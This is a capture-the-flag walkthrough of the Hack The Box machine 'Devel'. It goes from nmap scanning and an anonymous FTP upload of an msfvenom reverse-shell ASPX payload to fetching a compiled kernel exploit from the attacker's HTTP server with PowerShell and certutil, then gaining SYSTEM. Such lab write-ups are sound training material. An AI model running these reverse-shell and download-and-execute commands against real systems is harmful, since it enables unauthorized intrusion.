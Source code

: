 # Devel

![Untitled](Devel/Untitled.png)

# Reconnaissance

### Running Quick initial Nmap Scan

```ruby
sudo nmap -sC -sV -O -oN nmap/initial 10.10.10.5
```

> **-sC** : Scan with nmap’s default script
**-sV** : Service detection
**-O** : OS detection
> 

![Untitled](Devel/Untitled%201.png)

### Running the full scan

To make sure we’ve covered all the ports.

```python
sudo nmap -sC -sV -O -p- -oN nmap/full 10.10.10.5
```

- -p- : scan all the ports

![Untitled](Devel/Untitled%202.png)

We’ve got the same Result

### Running udp scan

```python
sudo nmap -sU -O -oN nmap/udp 10.10.10.5
```

- -sU : udp scan

![Untitled](Devel/Untitled%203.png)

Nothing found.

## Attack vectors

- [ ]  21 - ftp — anonymous login allowed
- [ ]  80 - running http server.

# Enumeration

Let’s have a peak in port 80, which is default webpage

![Untitled](Devel/Untitled%204.png)

Now have look in ftp. As it allowed anonymous login we can easily log in by these default creds

```python
user : anonymous
pass :
```

![Untitled](Devel/Untitled%205.png)

If you try accessing these file from web you can do that. May be the FTP server is in the same root as the HTTP server. lets test it, 

- upload a file via ftp
- access that file in the web

![Untitled](Devel/Untitled%206.png)

FTP commands:

> - **put filename** : will upload local file to target ftp server
- ls : show the directory
> 

Accessing the file in web.

![Untitled](Devel/Untitled%207.png)

we can access. So we also can execute arbitrary payload by uploading via ftp.

# Gaining Foothold

**Making a reverse shell via msfvenom**

```python

msfvenom -p windows/reverse_tcp LHOST=10.10.16.70 LPORT=9999 -f aspx -o payload.aspx
```

- **-p** : payload type.
- **-LHOST** : my local host where the server will contact
- **-LPORT** : the port on which it will connect
- **-f** : payload type. as our target server is windows we used `aspx` extension
- **-o** : output location and file name

Uploading the `payload.aspx`

![Untitled](Devel/Untitled%208.png)

Starting a listener on port 9999

```python
nc -lnvp 9999
```

Executing the payload by accessing that file in the web

![Untitled](Devel/Untitled%209.png)

And we get the shell.

![Untitled](Devel/Untitled%2010.png)

Okay, First thing first lets try to access the user flag . 

`cd c:\users` 

![Untitled](Devel/Untitled%2011.png)

Trying to access `babis` 

`cd babis`

permission denied  …

Administrator is also the same

Let's have basic enumeration throughout the machine.

`systeminfo` :

![Untitled](Devel/Untitled%2012.png)

- It's windows 7 enterprise
- Build 7600 ( quite old , should have vulnerabilities)
- Its running on `32 bit`
- And no `hotfix` available.

**Turning on Hackers Mind:**

So let's search for exploit

![Untitled](Devel/Untitled%2013.png)

And yeah it has an exploit. Let's follow the first link. It's a kernel exploit .

It's exploit db. To copy the exploit we just need the `EBD-ID` 

![Untitled](Devel/Untitled%2014.png)

It has instructions too , it will be a great help.

![Untitled](Devel/Untitled%2015.png)

Before doing that you should update your local searchsploit database

`searchsploit -u`

Search for the payload using searchsploit

`searchsploit 40564`

Copying/mirroring the payload in current folder

`searchsploit -m 40564`

![Untitled](Devel/Untitled%2016.png)

Now, read the payloads and its usage.

According to the instructions we need to compile the payload first according to the machine we are attacking. 

We are attacking the `32 bit` machine.

To download the compiler use the following commnd

```python
sudo apt-get install gcc-mingw-w64
```

Now compile the payload `40564.c` to `exploit.exe` by using following command.

![Untitled](Devel/Untitled%2017.png)

## Payload delivery

First Run an http server in our attacker machine. Which will create a server and will make our current directory accessible from internet. And our current directory will contain the payload.

```python
python3 -m http.server 1337
```

- 1337 is our port in which our server is running.

Now find our local ip.

```python
ipconfig 
```

`tun0` should be our local ip

***Process 1: via powershell***

```python
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.10.16.70:1337/exploit.exe](http://10.10.16.70:1337/exploit.exe)', 'c:\Users\Public\Downloads\exploit.exe')"
```

![Untitled](Devel/Untitled%2018.png)

or

***Process 2: Via `certutil`. It's the most convenient way***

```python
certutil.exe -urlcache -split -f http://10.10.16.70:1337/exploit.exe
```

![Untitled](Devel/Untitled%2019.png)

Sending payload to the victim machine is successful.

Now negative to that specific folder where the payload is uploaded. And simply run the exploit.

![Untitled](Devel/Untitled%2020.png)

And that's it. We Became `root` .

![Untitled](Devel/Untitled%2021.png)

![Untitled](Devel/Untitled%2022.png)

![Untitled](Devel/Untitled%2023.png)

![Untitled](Devel/Untitled%2024.png)
